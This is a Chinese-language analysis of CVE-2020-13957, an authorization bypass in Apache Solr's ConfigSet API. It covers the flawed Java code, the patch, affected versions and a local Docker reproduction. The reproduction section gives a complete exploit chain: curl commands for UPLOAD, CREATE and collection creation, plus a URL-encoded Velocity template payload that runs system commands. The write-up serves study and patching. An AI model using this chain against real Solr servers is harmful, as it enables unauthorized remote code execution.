









# CVE-2020-13957 CWE-863 Solr RCE

## 漏洞背景

- **Solr ：**一个高性能、可扩展的开源企业级搜索引擎平台，基于 Apache Lucene 构建。它采用倒排索引技术，能够快速高效地对海量数据进行全文检索，支持多种数据格式（如 JSON、XML 等）的导入和索引。Solr 提供强大的查询功能，包括全文检索、过滤查询、排序、分组等，可灵活满足不同的检索需求。还具备分布式搜索和索引复制功能，可实现高可用性和负载均衡，广泛应用于电商搜索、内容管理、数据分析等众多领域，助力企业提升搜索体验和数据处理能力。
- **SolrCloud 模式：**  Apache Solr 的一种分布式部署架构，旨在实现高可用性和水平扩展。在 SolrCloud 模式下，Solr 集群由多个 Solr 实例组成，这些实例通过 ZooKeeper 进行协调和管理。SolrCloud 使用分片（Shard）和副本（Replica）机制来分布和冗余数据，从而提高数据的可靠性和查询性能。通过 SolrCloud，可以轻松地扩展 Solr 集群以处理大规模数据和高并发查询，同时确保数据的一致性和系统的容错性。
- **配置集（Configset）：** Apache Solr 中用于配置索引和搜索行为的一组配置文件的集合，它包含了 `solrconfig.xml` 和 `schema.xml` 等关键文件，这些文件定义了 Solr 的行为和数据结构。`solrconfig.xml` 用于配置 Solr 的各种组件和插件，如请求处理器、缓存机制等；`schema.xml` 则定义了文档的字段、数据类型、分析器等。Configset 允许用户根据特定需求自定义 Solr 的功能。用户可以上传自定义的 Configset，以便在创建集合时使用这些自定义配置。
- **集合（Collection）：** 一个逻辑容器，用于存储一组具有相同结构的文档集合。这些文档被索引和存储以便进行高效的搜索和检索。集合可以被划分为多个分片（Shard），每个分片都是一个独立的索引，可以分布在集群中的多个 Solr 实例上。这种分布式架构设计使得 Solr 能够支持大规模数据的存储和高并发的查询请求。通过合理配置，集合可以实现数据的复制和冗余存储，提高系统的可用性和容错性。
- **Velocity 模板：** 一种基于 Java 的模板引擎，用于生成动态内容，如网页、电子邮件等。它使用简单的语法将静态模板与数据模型结合，生成个性化的输出。Velocity 模板语言（VTL）提供变量、条件判断、循环等控制结构，允许开发者灵活地构建动态内容。在 Solr 中，Velocity 模板用于创建动态的搜索结果页面和管理界面。
- **CWE-863（Incorrect Authorization）：**软件在执行授权检查时未能正确验证用户权限，导致攻击者能够绕过访问限制，执行未授权的操作。这种漏洞可能引发信息泄露、数据篡改或权限提升等问题，具体取决于受影响的功能和数据的敏感性。CWE-863的利用通常不需要用户交互，且被利用的可能性较高。

## 漏洞原理

Solr 可运行在 SolrCloud（分布式集群模式）和 StandaloneServer（独立服务器模式）两种模式下，当以 SolrCloud 模式运行时，可通过Configset API 操作 Configsets，包括创建、删除等。

对于通过 Configset API 执行 UPLOAD 时，如果启用了身份验证（默认未开启），且该请求通过了身份验证，Solr 会为该 configset 的设置“trusted”，否则该配置集不会被信任，不被信任的 configset 无法创建collection。

但当攻击者通过 UPLOAD 上传 configset 后，再基于此configset CREATE configset 时，Solr 不会为这个新的 configset 进行信任检查，导致可以使用未经信任检查的新 configset 创建 collection，之后可以通过 Solr 的 Velocity 模板渲染功能实现命令执行。

**总结：** Apache Solr 版本 6.6.0 到 6.6.6、7.0.0 到 7.7.3 和 8.0.0 到 8.6.2 阻止在未经身份验证/授权的情况下通过 API 上传的 ConfigSet 中配置一些被认为危险的功能（可用于远程代码执行）。可以通过使用 UPLOAD/CREATE 的组合来规避为阻止此类功能而进行的检查。

## 漏洞定位

在 solr\core\src\java\org\apache\solr\handler\admin\ConfigSetsHandler.java 文件，第 **264** 行，定义了一个名为 `ConfigSetOperation` 的枚举类型，用于处理与配置集（ConfigSet）相关的操作。

其中第 **265** 用于处理创建配置集的操作，但是在第 **269** 行直接将之前获取的基础配置集名称添加到属性地图 props 之前**没有判断** baseConfigSet 是否是一个受信任（trusted）的 configSet。也**没有校验**当前请求是否为受信任用户发起。也就是说：**任何人只要知道已有的 trusted configSet 名字，就可以在它的基础上“派生”一个新 configSet，保留原有危险配置（如 script、velocity 模板），最终可被用来执行任意命令**。这是**漏洞点**所在。

```java
enum ConfigSetOperation {
    CREATE_OP(CREATE) {
      @Override
      Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
          // 参数获取
        String baseConfigSetName = req.getParams().get(BASE_CONFIGSET, DEFAULT_CONFIGSET_NAME);
          // 复制请求参数中的必要参数，并将其存储在 props 地图中
        Map<String, Object> props = CollectionsHandler.copy(req.getParams().required(), null, NAME);
// ***** 269 行 **********  直接将之前获取的基础配置集名称添加到属性地图 props 中 ***************
        props.put(BASE_CONFIGSET, baseConfigSetName);
          // 复制带有特定前缀的属性
        return copyPropertiesWithPrefix(req.getParams(), props, PROPERTY_PREFIX + ".");
      }
    },
    DELETE_OP(DELETE) {
      @Override
      Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
        return CollectionsHandler.copy(req.getParams().required(), null, NAME);
      }
    },
    LIST_OP(LIST) {
      @Override
      Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
        NamedList<Object> results = new NamedList<>();
        SolrZkClient zk = h.coreContainer.getZkController().getZkStateReader().getZkClient();
        ZkConfigManager zkConfigManager = new ZkConfigManager(zk);
        List<String> configSetsList = zkConfigManager.listConfigs();
        results.add("configSets", configSetsList);
        SolrResponse response = new OverseerSolrResponse(results);
        rsp.getValues().addAll(response.getResponse());
        return null;
      }
    };
    // ... ...
  }
```

## 漏洞修复

在第 265 用于处理创建配置集的操作中增加了认证逻辑，isTrusted()：判断当前请求是否为受信任请求（用户已认证）。isCurrentlyTrusted()：判断目标 baseConfigSet 是否是受信任配置。两者组合判断后，禁止未认证请求从受信任 ConfigSet 创建新配置。

```java
    CREATE_OP(CREATE) {
      @Override
      public Map<String, Object> call(SolrQueryRequest req, SolrQueryResponse rsp, ConfigSetsHandler h) throws Exception {
        String baseConfigSetName = req.getParams().get(BASE_CONFIGSET, DEFAULT_CONFIGSET_NAME);
        String newConfigSetName = req.getParams().get(NAME);
        if (newConfigSetName == null || newConfigSetName.length() == 0) {
          throw new SolrException(ErrorCode.BAD_REQUEST, "ConfigSet name not specified");
        }

        ZkConfigManager zkConfigManager = new ZkConfigManager(h.coreContainer.getZkController().getZkStateReader().getZkClient());
        if (zkConfigManager.configExists(newConfigSetName)) {
          throw new SolrException(ErrorCode.BAD_REQUEST, "ConfigSet already exists: " + newConfigSetName);
        }

// 显式检查 baseConfigSet 是否存在
        if (!zkConfigManager.configExists(baseConfigSetName)) {
          throw new SolrException(ErrorCode.BAD_REQUEST,
                  "Base ConfigSet does not exist: " + baseConfigSetName);
        }

        Map<String, Object> props = CollectionsHandler.copy(req.getParams().required(), null, NAME);
        props.put(BASE_CONFIGSET, baseConfigSetName);
// 增加认证逻辑，isTrusted()：判断当前请求是否为受信任请求（用户已认证）。isCurrentlyTrusted()：判断目标 baseConfigSet 是否是受信任配置。
        if (!DISABLE_CREATE_AUTH_CHECKS &&
                !isTrusted(req, h.coreContainer.getAuthenticationPlugin()) &&
                isCurrentlyTrusted(h.coreContainer.getZkController().getZkClient(), ZkConfigManager.CONFIGS_ZKNODE + "/" +  baseConfigSetName)) {
          throw new SolrException(ErrorCode.UNAUTHORIZED, "Can't create a configset with an unauthenticated request from a trusted " + BASE_CONFIGSET);
        }
        return copyPropertiesWithPrefix(req.getParams(), props, PROPERTY_PREFIX + ".");
      }
    }
```


## 影响范围

**影响版本：**Apache Solr

- 6.6.0 - 6.6.5
- 7.0.0 - 7.7.3
- 8.0.0 - 8.6.2

**环境要求：**需要启动 SolrCloud 模式

## 环境搭建

1. 启动 Docker 环境，Solr 版本为 8.3.0，监听端口为 8983

   

2. 容器中存在一个名为 demo 的 core，并将 XML、JSON、CSV 文件导入了该 Solr core 中，使用以下命令查看所有的核心：

   ```bash
   curl "http://127.0.0.1:8983/solr/admin/collections?action=LIST&wt=json"
   ```

   

## 漏洞复现

利用UPLOAD上传恶意配置 -> 用恶意配置为母版创建新的恶意配置 -> 使用新的恶意配置创建 collection-> 执行RCE。

1. 修改 solr\example\files\conf\solrconfig.xml 文件，第 1316 行之后添加下面两行代码后，将 conf 目录下所有文件打包成一个压缩文件 myconfig.zip 文件。

   - 启用 Solr 的资源加载器，用于从 Solr 的类路径（ /conf/ 目录或 JAR 包）中加载 Velocity 模板文件，表示可以直接引用 Solr 中已有的模板资源。

     ```xml
     <str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
     
     ```

   - 启用通过 HTTP 请求参数传入模板内容的能力，表示可以通过请求 URL 中的参数传入自定义模板代码。

     ```xml
     <str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:true}</str>
     ```

     

2. 由于 ConfigSet API 存在未授权上传，上传恶意配置，通过 UPLOAD 上传刚刚打包好的 myconfig.zip，并命名为 myconfignew。

   ```bash
   curl -X POST --header "Content-Type:application/octet-stream" \
        --data-binary @myconfig.zip \
        "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=myconfignew"
   ```

   

   访问网站 http://127.0.0.1:8983/solr/admin/configs?action=LIST 可以看到上传的配置已存在

   

3. 使用上传的 configset：myconfignew 为母版，创建新的 configset：evilconfigset。Solr 不会为这个新的 configset 进行信任检查，导致可以使用未经信任检查的新 configset 创建 collection。实现了身份认证绕过。

   ```bash
   curl -v "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=evilconfigset&baseConfigSet=myconfignew&configSetProp.immutable=false&wt=xml&omitHeader=true"
   ```

   

4. 接下来继续实现进一步的利用 RCE。创建 collection，利用刚刚创建的 evilconfigset 来 CREATE 一个新的 collection：mytestcollection。若这里直接使用上传的 configset：myconfignew，则会报认证错误。

   ```bash
   curl -v "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=eviltestcollection&numShards=1&replicationFactor=1&wt=xml&collection.configName=evilconfigset"
   ```

   

5. 使用 curl 命令访问 Solr 的一个查询接口，并且利用了 Solr 的 Velocity 模板渲染功能来执行恶意代码。利用已上传的 mytestcollection 进行远程命令执行，这里执行的是 id。可以看到成功返回了 id 执行后的结果。

   ```bash
   curl "http://127.0.0.1:8983/solr/eviltestcollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27id%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
   ```

   #set($x='')：定义一个空字符串变量 $x。

   $x.class.forName('java.lang.Runtime')：通过空字符串变量拿到 java.lang.Runtime 类。

   $rt.getRuntime().exec('id')：调用 Runtime.getRuntime().exec('id') 执行系统命令 id。

   $ex.waitFor()：等待命令执行完毕。

   $out = $ex.getInputStream()：获取命令执行的标准输出流。

   #foreach($i in [1..$out.available()]) ... #end：循环读取输出流里的所有字节，将其转为字符输出。

   

   

## EXP分析

运行 EXP 文件，输入 Solr 的 IP 和端口、配置文件的路径、为配置文件命名的配置集名、新的配置集名、利用配置集新建的集合名，之后可以进入交互式命令输入界面。

```bash
python CVE-2020-13957-EXP.py
```



**执行流程：**上传恶意配置文件 -> 以上传的恶意配置文件为母版创建新配置集 configset -> 创建新的集合 collection -> 通过 Solr 的 Velocity 模板渲染功能实现命令执行。

## 参考链接

[NVD - CVE-2020-13957](https://nvd.nist.gov/vuln/detail/CVE-2020-13957)

[Incorrect Authorization in Apache Solr · CVE-2020-13957 · GitHub Advisory Database](https://github.com/advisories/GHSA-3c7p-vv5r-cmr5)

[Apache Solr 未授权上传（RCE）漏洞（CVE-2020-13957）的原理分析与验证 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/252193.html)

[SOLR-14663: Copy ConfigSet root data from base ConfigSet when using C… · apache/solr@e001c22](https://github.com/apache/solr/commit/e001c2221812a0ba9e9378855040ce72f93eced4)
